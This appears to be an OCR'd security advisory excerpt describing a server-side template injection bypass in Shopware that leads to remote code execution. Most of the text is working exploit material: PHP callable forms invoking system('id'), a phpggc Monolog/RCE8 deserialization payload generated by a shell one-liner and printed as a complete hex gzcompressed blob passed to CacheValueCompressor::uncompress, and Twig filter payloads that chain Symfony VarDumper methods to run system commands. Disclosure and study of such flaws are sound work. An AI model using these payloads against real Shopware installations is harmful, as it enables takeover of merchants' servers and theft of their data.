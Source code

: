 #### Type 1: 
```
Simple callback -- invokes system("id")
$func = "system";
$func("id")
```
#### Type 2: 
```
Static class method call -- invokes Class::staticMethod($arg)
$func = $array("Class", "staticMethod");
$func($arg);
```

#### Type 3:
```
Object method call -- invokes $obj->method($arg)
$func = $array($obj, "method"));
$func($arg);
```

Going back to [1], if $arrow is an array instead of a string or closure, the validation check to prevent invocation of unsafe functions is completely skipped. Multiple static class methods within Shopware’s codebase and its dependencies were found to be suitable gadgets for achieving for remote code execution:

#### Gadget 1: 
Using `\Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress()` to invoke unserialize()
Serialized payload generated using the phpggc tool: ./phpggc -b Monolog/RCE8 system `'id'`

Compressed payload is generated using:
$ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"'
```
{{ ["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length }}
```
#### Gadget 2: 
Using `\Symfony\Component\VarDumper\Vardumper::setHandler()` and `\Symfony\Component\VarDumper\Vardumper::dump()` to invoke system("id"):
```
{{ ['system'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'setHandler']) | length }}
{{ ['id'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'dump']) | length }}
```
